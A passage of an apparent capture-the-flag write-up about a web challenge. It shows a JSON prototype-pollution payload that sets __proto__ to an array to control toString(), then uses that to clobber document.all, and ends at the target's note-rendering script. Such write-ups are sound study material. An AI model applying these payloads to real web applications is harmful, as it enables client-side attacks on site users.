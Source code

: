 By default, `toString()` function of user object returns a value with `user_` prefix
```js
toString() {
  return `user_${this.#username}`
}
```

In order to return an arbitrary value, attacker can use an array as `__proto__`, for example:
```
{"debugUser":"true","__proto__":["foobar"]}

user.toString() == "foobar"
```

### DOM Clobbering

As a result of exploiting Prototype Pollution, attacker can define any `document` field, but only if it is undefined.

```js
function is_undefined(x) {
    return typeof x === "undefined" && x == undefined
}
...
// make sure to not override anything
if (!is_undefined(document[user.toString()])) {
  return false;
}
...
window.USERNAME = user.toString();
document[window.USERNAME] = user;
```

If we check which of the document fields meet these conditions, we get the following.

```js
for (name in document) {
  if (typeof document[name] === "undefined")
   console.log(`document.${name}`);        
}

document.all
```

`document.all` is a read-only field that contains every element in the document (Hint was in the name of the task all this time). So if `user.toString()` will return `all`:

```
document["all"] = user;
...
theme = document.all.theme;
...
callback = document.all.theme.cb;
```

Now we need to return to the main function of the application - private notes.
```html
<script nonce="e75a76cccb1884de">
  const note = "test";
  const note_id = "a80b5c6c-35e4-4f35-8654-d6273078b39d";
  const note_el = document.getElementById('note-content');
  const note_url_el = document.getElementById('note-title');
  const clean = DOMPurify.sanitize(note);
  note_el.innerHTML = clean;
  note_url_el.href = `/note/${note_id}`;
  note_url_el.innerHTML = `${note_id}`;
</script>
```
